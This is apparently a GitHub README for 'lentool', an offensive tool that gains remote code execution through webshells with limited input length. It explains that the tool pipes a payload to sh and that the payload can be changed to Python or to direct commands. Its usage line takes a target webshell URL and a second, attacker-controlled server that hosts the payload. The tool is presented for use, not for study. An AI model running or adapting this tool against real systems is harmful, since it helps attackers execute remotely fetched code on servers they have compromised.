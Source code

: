 # Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code (python is already done, just uncomment it), also you could modify it to execute commands directly.

# Usage
```
python3 lentool.py -t http://targetexample.com/?start -u http://myserverexample.com
--target, -t: Target URL with param.  
--url, -u: Web server hosting the payload.
```
In the extras folder you can find an example using flask to host the payload.
